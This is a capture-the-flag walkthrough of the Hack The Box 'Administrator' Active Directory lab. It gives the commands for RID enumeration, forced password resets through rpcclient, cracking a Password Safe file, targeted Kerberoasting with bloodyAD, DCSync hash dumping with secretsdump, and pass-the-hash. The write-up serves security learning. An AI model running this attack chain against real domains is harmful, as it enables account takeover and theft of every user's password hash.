This box is rated medium difficulty on HTB. It involves us enumerating Access Control Lists (ACLs) over privileged objects in order to pivot between several users. Along the way, we change passwords, crack a Password Safe backup file, perform a targeted Kerberoasting attack, and utilize DCSync permissions to retrieve all domain users' NTLM hashes.

## Host Scanning
I begin with an Nmap scan against the target IP to find all running services on the host; Repeating the same for UDP returns the standard AD ports.

```
$ sudo nmap -sCV 10.129.6.47 -oN fullscan-tcp                                      

Starting Nmap 7.95 ( https://nmap.org ) at 2026-03-13 23:40 CDT
Nmap scan report for 10.129.6.47
Host is up (0.056s latency).
Not shown: 987 closed tcp ports (reset)
PORT     STATE SERVICE       VERSION
21/tcp   open  ftp           Microsoft ftpd
| ftp-syst: 
|_  SYST: Windows_NT
53/tcp   open  domain        Simple DNS Plus
88/tcp   open  kerberos-sec  Microsoft Windows Kerberos (server time: 2026-03-14 11:40:31Z)
135/tcp  open  msrpc         Microsoft Windows RPC
139/tcp  open  netbios-ssn   Microsoft Windows netbios-ssn
389/tcp  open  ldap          Microsoft Windows Active Directory LDAP (Domain: administrator.htb0., Site: Default-First-Site-Name)
445/tcp  open  microsoft-ds?
464/tcp  open  kpasswd5?
593/tcp  open  ncacn_http    Microsoft Windows RPC over HTTP 1.0
636/tcp  open  tcpwrapped
3268/tcp open  ldap          Microsoft Windows Active Directory LDAP (Domain: administrator.htb0., Site: Default-First-Site-Name)
3269/tcp open  tcpwrapped
5985/tcp open  http          Microsoft HTTPAPI httpd 2.0 (SSDP/UPnP)
|_http-title: Not Found
|_http-server-header: Microsoft-HTTPAPI/2.0
Service Info: Host: DC; OS: Windows; CPE: cpe:/o:microsoft:windows

Host script results:
| smb2-security-mode: 
|   3:1:1: 
|_    Message signing enabled and required
| smb2-time: 
|   date: 2026-03-14T11:40:35
|_  start_date: N/A
|_clock-skew: 7h00m00s

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 21.81 seconds
```

Looks like a Windows machine with Active Directory components installed on it. LDAP is leaking the domain of `administrator.htb` which I'll add to my `/etc/hosts` file. As there are no web services, my focus will be on FTP, SMB, and LDAP to gather as much information as possible.

## Enumeration
This is an assumed breach box, meaning we start off with a pair of credentials. I use those to authenticate over SMB and enumerate any available shares to us.

```
$ nxc smb administrator.htb -u olivia -p 'ichliebedich' --shares
```



### WinRM Access
That shows that we have only read permissions on the standard shares and there aren't any interesting ones to look for in the future. Since we already have authentication, I check to see if Olivia is apart of the Remote Management group that allows for WinRM access.



It responds with **"Pwn3d!"** meaning we can get a shell with tools like Evil-WinRM and start peaking around the filesystem. Skipping ahead, I don't find anything interesting, so I move on to other matters.

### Gathering Usernames
Next, I brute-force RIDs to enumerate all users and groups on the domain in order to create a wordlist of valid users. This can also be done with the `--users` flag, but I find that RIDs are generally more reliable at picking up everyone. Saving the output to a file lets us extract usernames from it with a simple awk command.

```
$ nxc smb administrator.htb -u olivia -p 'ichliebedich' --rid-brute > users.txt

$ cat users.txt| awk -F'\\' '{print $2}' | awk '{print $1}' > validusers.txt
```



Before attempting any crazy Kerberoasting or AS-REP roasting on these other users, I enumerate LDAP, RPC, and FTP. Using a typical client to try to authenticate to the FTP server shows that anonymous logins are disabled and Olivia doesn't have access to it either.



### Mapping Domain with BloodHound 
Testing LDAP for anonymous binds as well as RPC for null authentication both fail, which is kind of useless to check since we already have valid creds, but is something to look for in a real engagement. To make it a bit easier on myself, I start up BloodHound to map Active Directory and see what permissions Olivia currently has.

```
$ bloodhound-python -d administrator.htb -u olivia -p 'ichliebedich' -ns 10.129.6.47 -c all

$ sudo bloodhound
```

After letting it ingest the files for a bit, I see that under Outbound Object Control, Olivia has `GenericAll` over Michael's account. She's also not apart of any interesting groups that we don't know of.



## Changing Passwords
GenericAll permissions mean that we can effectively change the attributes on another object, which gives us plenty of options to take over that account. We could perform a targeted Kerberoasting attack in order to obtain a crackable hash, or just force change his password to be an arbitrary value. 

I go with the ladder, as it's easier and decide to carry out this step over RPC. [The Hacker Recipes](https://www.thehacker.recipes/ad/movement/dacl/forcechangepassword) site is a great reference for carrying out AD attacks and I use it to locate a command that can be ran locally.

```
$ rpcclient --user=olivia 10.129.6.47 -W administrator.htb
Password for [ADMINISTRATOR.HTB\olivia]:
rpcclient $> setuserinfo2
Usage: setuserinfo2 username level password [password_expired]
result was NT_STATUS_INVALID_PARAMETER
rpcclient $> setuserinfo2 michael 23 Password123!
```

Testing these out over SMB confirms that we have changed his password and can now perform actions as him.



Heading back to BloodHound to gather information on Michael's account shows that he has the `ForceChangePassword` permission over Benjamin.



This isn't quite as powerful as `GenericAll`, but we can still takeover his account and pivot by changing his password in the same way. Repeating the previous steps as Michael shows that we now have access to Benjamin's account.

```
$ rpcclient --user=michael 10.129.6.47 -W administrator.htb
Password for [ADMINISTRATOR.HTB\olivia]:
rpcclient $> setuserinfo2
Usage: setuserinfo2 username level password [password_expired]
result was NT_STATUS_INVALID_PARAMETER
rpcclient $> setuserinfo2 benjamin 23 Password123!
```

## FTP Server Enum
Back to BloodHound, I don't find anything under Outbound Object Control, however we are apart of the Share Moderators group. Maybe he'll have access to the FTP server and we can snag files from it.



### Cracking Password Safe File
Authenticating with our new credentials works, and I find just one file named `Backup.psafe3` inside. A _.psafe3_ file is a secure, encrypted database file used by Password Safe to store usernames, passwords, and related notes. It is designed for maximum security, requiring a master passphrase to unlock and access the stored information.



This seems promising, luckily we can use a tool like [pwsafe2john](https://github.com/willstruggle/john/blob/master/pwsafe2john.py) in order to convert it into a crackable format to retrieve the password.

```
$ pwsafe2john Backup.psafe3 > hash

$ john hash --wordlist=/opt/SecLists/rockyou.txt
```



That cracks within a second, allowing us to dump this archive of backup passwords for other users on the domain. In order to do so, I needed to install Password Safe on my Kali Linux machine using `sudo apt install passwordsafe`.



## Targeted Kerberoasting
Copying those to a file by double clicking and pasting gives us three new users to mess around with. Earlier while enumerating the filesystem, I found that the only other user on the box was Emily. She too has WinRM access, meaning we can grab a shell in order to grab the user flag in her Desktop folder.



Hopping back to BloodHound,  I find that Emily has GenericWrite over Ethan's account. With this enabled, we can either perform a targeted Kerberoasting attack by adding an SPN to his account and Kerberoasting it, or grab a shadow credential, which is much sneakier.

If you're unfamiliar - Shadow credentials refer to abusing the Key Credential Link attribute in Active Directory to add a new authentication key to another user or computer account. This lets an attacker authenticate as that account using certificate-based authentication without knowing its password.



I attempted to use ShutdownRepo's [Pywhisker.py script](https://github.com/ShutdownRepo/pywhisker) for this step, which automates the process with a few parameters, but nothing happened upon execution. This could mean that Key Credentials are not allowed on this domain or we really can't write to that `msDS-KeyCredentialLink` attribute for some odd reason. 

Either way, I fall back to targeted Kerberoasting on Ethan's account. If you're unaware of this attack vector - Targeted Kerberoasting is an attack where an attacker adds a Service Principal Name (SPN) to a specific user account they control permissions over, then requests a Kerberos service ticket for that SPN so the ticket can be cracked offline to recover the account's plaintext password.

I'll use [BloodyAD](https://github.com/CravateRouge/bloodyAD) to add the SPN to Ethan's account to prepare the next step.

```
--Cloning BloodyAD repo into a Python virtual env and installing reqs--
git clone https://github.com/CravateRouge/bloodyAD
python3 -m venv venv
source venv/bin/activate
pip3 install -r requirements.txt

--Adding SPN to Ethan's account--
$ python3 bloodyAD.py -d administrator.htb -u emily -p '[REDACTED]' --host dc.administrator.htb set object ethan servicePrincipalName -v 'http/pwned'
[+] ethan's servicePrincipalName has been updated
```

Now we just need to Kerberoast Ethan's account to grab his NTLM hash. I also needed to fix the clock skew error in order to carry out this attack. VMWare likes to override my commands when trying to sync times, so I usually just stop both services whenever doing stuff related to Kerberos.

```
--Stopping my machine's timsyncd processes--
sudo systemctl stop systemd-timesyncd
sudo systemctl disable systemd-timesyncd
sudo systemctl stop chronyd 2>/dev/null
sudo systemctl disable chronyd 2>/dev/null

--Set Clock skew to match the DC's--
sudo rdate -n administrator.htb

--Kerberoasting attack over LDAP using Netexec--
$ nxc ldap dc.administrator.htb -u emily -p '[REDACTED]' -k --kerberoasting ethanhash
```

Sending that over to Hashcat or JohnTheRipper gives us the plaintext version, letting us move on.



## Abusing DCSync Permissions
BloodHound shows that Ethan has DCSync rights on this domain, which lets us abuse directory replication permissions in the Active Directory configuration to request password hashes directly from a domain controller, effectively impersonating another DC during replication.



We can simply use Impacket's [Secretsdump.py script](https://github.com/roo7break/impacket/blob/master/examples/secretsdump.py) to retrieve all NTLM hashes for domain users.

```
$ impacket-secretsdump ethan:[REDACTED]@administrator.htb
```



Finally, utilizing a Pass-The-Hash attack with the administrator's recovered NTLM lets us authenticate over WinRM and get a shell. Grabbing the final flag under their Desktop folder completes this challenge.



This box wasn't too hard since it was really just about finding and abusing permissions in AD environments. Bloodhound is a fantastic tool for mapping domains and getting familiar with it has definitely changed the way I attack these machines for the better. I hope this was helpful to anyone following along or stuck and happy hacking!
